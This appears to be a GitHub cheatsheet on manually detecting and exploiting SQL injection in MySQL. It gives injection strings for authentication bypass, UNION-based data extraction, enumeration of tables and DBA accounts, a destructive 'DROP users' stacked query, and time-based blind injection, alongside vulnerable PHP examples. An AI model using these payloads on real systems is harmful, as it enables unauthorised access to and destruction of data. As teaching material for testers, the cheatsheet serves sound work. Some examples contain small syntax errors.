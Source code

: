 # MySQL-SQL-Injection-Cheatsheet
Tips for manually detect &amp; exploit SQL injection Vulnerability : MySQL

# Comment in MySQL <br>
1.  \# <br>
2.  -- (After double dash put space) <br>
3.  /\*\*/  <br>
 Ex: SELECT * from users/**/WHERE username='rk' AND password='123'; /*SQL keyword is case insansitive */  <br>
 
# MySQL LIMIT Clause  <br>
 1. The LIMIT clause is used to specify the number of records to return.  <br>
  Ex: SELECT * FROM users where username='' or 1=1 LIMIT 1; /*Without limit keyword it will return multiple result. it will help in auth bypass*/  <br>
  
# MySQL UNION Operator  <br>
 1. The UNION operator is used to combine the result-set of two or more SELECT statements.  <br>
    a. Every SELECT statement within UNION must have the same number of columns.  <br>
    b. The columns must also have similar data types.  <br>
    c. The columns in every SELECT statement must also be in the same order.  <br>
  Ex 1: Select  student_id, student_name, student_branch from students where student_id=1 UNION SELECT 1, 'hack' 'password'; /* Select from same table */  <br>
  Ex 1: Select  student_id, student_name, student_branch from students where student_id=1 UNION SELECT 1, 'hack' 'password' FROM hack.users;  /* Select from different DB and table */  <br>
  
# MYSQL Stack query <br>
1. MySQL does not support stack query with PHP, ASP.NET, Java <br>
Ex: SELECT * FROM products WHERE id = 1; DROP users-- /* stack query example */ <br>
  
# Substring  <br>
  1. SUBSTRING('MySQL', 3, 2)  <br>

# String without quote(' or ") <br>
1. using CONCAT function <br>
Ex: SELECT CONCAT(CHAR(77),CHAR(89),CHAR(83),CHAR(81),CHAR(76)); /* return MYSQL string */  <br>
2. using hex value <br>
Ex: SELECT 0x4d7953514c;  /* return MYSQL string */  <br>

# Database version <br>
1. SELECT @@version <br>

# Current Database <br>
Ex: SELECT database(); <br>

# Current Database User <br>
Ex 1: SELECT user(); <br>
Ex 2:SELECT system_user(); <br>

# List DBA account <br>
Ex: SELECT host, user FROM mysql.user WHERE Super_priv = 'Y'; <br>

# Database contents <br>
1. Selecting all the tables in MySQL along with DB <br>
Ex: SELECT * FROM information_schema.tables; <br>
2. electing all the columns in perticular table <br>
Ex: SELECT * FROM information_schema.columns WHERE table_name = 'TABLE_NAME'; <br>

# Order by <br>
1. The ORDER BY keyword is used to sort the result-set in ascending or descending order. But these keywords are used to identify no of columns present in table. <br>
Ex: SELECT * FROM Customers ORDER by 7; /* if columns are less than 7 in the table. query gives SQL error. Check on less than 7 values until error resolved.  */ <br>

# Time Delay <br>
Ex 1: SELECT sleep(10)  /* Sleep for 10 sec */ <br>
Ex 2: SELECT IF(CONDITION-HERE,sleep(10),'a'  /* Sleep for 10 sec if codition is True*/ <br>

# Detecting SQL Injection <br>
Case 1: When source code is available. <br>
Try to find out dynamic query where user inputs are concatenating to SQL query without/partial sanitizing user's input. Some time developer does mistake to concatenate user input into query while using parameterize SQL query. <br>
Ex 1: <br>
$username = $_POST["username"]; <br>
$password = $_POST["password"]; <br>
$sql="SELECT * FROM users WHERE username = '$username' AND password = '$password'"; <br>
$result = mysql_query($sql, $link); <br>
<br>
Ex 2: parameterized query <br>
$firstname = $_POST["firstname"]; <br>
$lastname = $_POST["lastname"]; <br>
$email = $_POST["email"]; <br>

$stmt = $conn->prepare("INSERT INTO MyGuests (firstname, lastname, email) <br>
VALUES ($firstname, :lastname, :email)"); /* Userinput "firstname" is directly concatenated into quey. So snippet is vulnerable to SQL Injection */  <br>
$stmt->bindParam(':lastname', $lastname); <br>
$stmt->bindParam(':email', $email); <br>
<br>
Case 2: Black box error based SQL Injection <br>
1. single quote('), double quote("), and(&), semicolon(;), double dash(--) any character that break the SQL syntax. SQL server return Syntex error to end user. <br>
  Ex : $sql="SELECT * FROM users WHERE username = ''' AND password = '$password'";  /* gives syntax error */ <br>
  
Case 3. Blind SQL Injection (Conditional) <br>
1. App return data based on True/False condition <br>
Ex 1: "SELECT * FROM books WHERE bookid = -2 or 2>1# <br>
Ex 2: "SELECT * FROM books WHERE bookid = -2 or 2>1 LIMIT 1# /* Return 1st result only */ <br>
<br>
Case 4: Blind SQL Injection (Time delay) <br>
1. App return data after delaying certain time <br>
Ex 1: "SELECT * FROM books WHERE bookid = -2 or sleep(10)#; <br>
2. Condition time delay <br>
Ex 2. SELECT IF(1=1,sleep(10),'a'); <br>
    

